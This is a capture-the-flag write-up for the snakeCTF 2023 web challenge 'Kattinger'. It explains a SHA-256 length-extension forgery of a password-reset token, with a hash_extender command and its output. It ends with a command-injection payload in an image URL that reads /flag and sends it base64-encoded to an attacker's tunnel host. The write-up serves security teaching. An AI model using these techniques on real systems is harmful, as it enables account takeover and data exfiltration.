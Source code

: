 # Kattinger [_snakeCTF 2023_]

**Category**: web


## Description

Fellow cat lovers, I made an app to share out favorites!

## Solution

The application is a platform to share and comment on pictures of cats.

By looking at the source code, we can find that the flag is located in the admin page

```
class AdminController < ApplicationController
  include SessionHelper
  before_action :print_request_info, :require_login
  
  def index
    raise ActionController::RoutingError, 'Unauthorized' if !is_admin?()

    @FLAG = ENV['FLAG'] || 'snakeCTF{REDACTED}'
  end
end
```

To access it, we have to log in with the admin credentials.
In the db folder there's a file `seeds.rb`, which is used to populate the database:

```
User.create([
              { id: 1, username: 'REDACTED', password: 'REDACTEDREDACTEDREDACTED' },
              { id: 2, username: 'one', password: 'supercoolandsafepassword' },
              { id: 3, username: 'two', password: 'supercoolandsafepassword' }
            ])
.....
```

We can see that the admin's username and password are redacted, so we can't find the credentials here.

Reading the file located at `app/controllers/users_controller.rb` we can check how the authentication is handled. In this file we can see something weird going on in the create endpoint: 

```
params[:user][:username] = params[:user][:username].last(8)
```

Why are characters from the username removed? Let's check the model for the user:

```
class User < ApplicationRecord
    has_many :comments
    validates :username, presence: true, length: {maximum: 8}  # We have to save space!!
    validates :password, presence: true, length: {minimum: 16} # but we care about security
end
```

This tells us only the last 8 characters of the username are stored. This is for sure strange, can it be part of the vulnerability?

Moreover, in `user_controller.rb`, we can see how the `reset password` functionality is handled:

```
  def reset_submit
    ...
    #GET
    if request.get?
        render :reset_submit
        return
    else 
    #POST
      ...

      if !check(params[:user][:username], params[:user][:reset_token])
        @message = "Wrong reset token!"
        render :reset_submit, status: :unprocessable_entity
        return
      end
      ...
      @account = User.find_by(username: params[:user][:username].last(8))
      @message = "Sorry, we're still building the application. Your current password is: " + @account.password
      render :reset_submit, status: :gone
      return
    end
  end
```

The `reset_submit` method handles the requests for the password change functionality. We notice that the `check` function validate the token via the provided `username` and `reset_token`. Let's see how it works in the helper:

```
module UsersHelper
    require 'digest'

    def cipher(username)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username
        
        return generator.hexdigest()
    end

    def check(username, token)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username

        return generator.hexdigest() == token
    end
end
```

This scenario is clearly vulnerable to [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), so we just need to find the admin username to exploit it.

To find the username we can fuzz by the ID passed in the user's `show` method, since the accounts are not intended to be secret (notice that you can find someone account by clicking on its name on the comments, but of course the admin has no comments).

The admin can be easily recognized by the `admin` flag in its profile.

![admin account page](images/admin_account.png)

We can now use a tool called [hash extender](https://github.com/iagox86/hash_extender) to append the admin username to our username and generate a valid reset token.

```
hash_extender --data zqhGqlxi --secret 32 --append 4dm1n_54 --signature 1d7dba0c011a28b5cde8e6542a03fc1a71c006696cdcce827e984b308bab05e9 --format sha256
b4a6d13fef3f701df246049d00a114a11721f8ea4403ad947182bfaac4293ba4 7a716847716c786980000000000000000000000000000000000000000000014034646d316e5f3534
```
The first part of the output is the new reset token, whilst the second is the new username (hex encoded) to submit on the reset page.

After submitting the reset token, we get the admin password.

Going to the admin page, we get the following: `I was joking, read the file /flag`.
So we need to perform one last step to obtain the flag.

Now we're logged in as admin, and the only functionality we gained is in the cat preview page:

![cat on lsd](images/cat_on_lsd.png)

So let's read how this is implemented in the cat helper:

```
module CatsHelper
    require 'curl'
    require 'rmagick'
    require 'base64'
    require 'timeout'

    include Magick

    def process_image(image_path)        
        p "Processing: " + image_path
        image_path = image_path.encode!("utf-8").scrub()
        if image_path.start_with?('http') || image_path.start_with?('https')
            curl = CURL.new({:cookies_disable => false})
            curl.debug=true
            p image_path
            filename = Timeout::timeout(3) do
                curl.save!(image_path)
            end
            p filename
        else
            filename = image_path
        end
        processed = ImageList.new(image_path)
        processed = processed.solarize(100)
        result = 'data://image;base64,' + Base64.strict_encode64(processed.to_blob())
        File.unlink(filename)
        return result

    end
end
```

We notice that it is using the `curl` library to fetch the image and `rmagick` to process it.
The `curl` gem it's broken AF, we can read its source code [here](https://github.com/tggo/curl/blob/master/lib/curllite.rb):

```
def save!(url,path="/tmp/curl/curl_#{rand}_#{rand}.jpg")
FileUtils.mkdir_p(File.dirname(path))
    cmd = "curl  #{browser_type}   --location --compressed --silent  \"#{url}\" --output \"#{path}\"  "
    puts cmd.red  if @debug	 
	system(cmd)
	path
end
```

This is vulnerable to command injection. By setting the payload to something like `http://www.google.com" && curl "{tunnel.public_url}/$(cat /flag | base64)` as the `image_path` (or `location` in the cat's editing page) and visiting the preview path, we can trigger a request to our endpoint which sends us the flag.


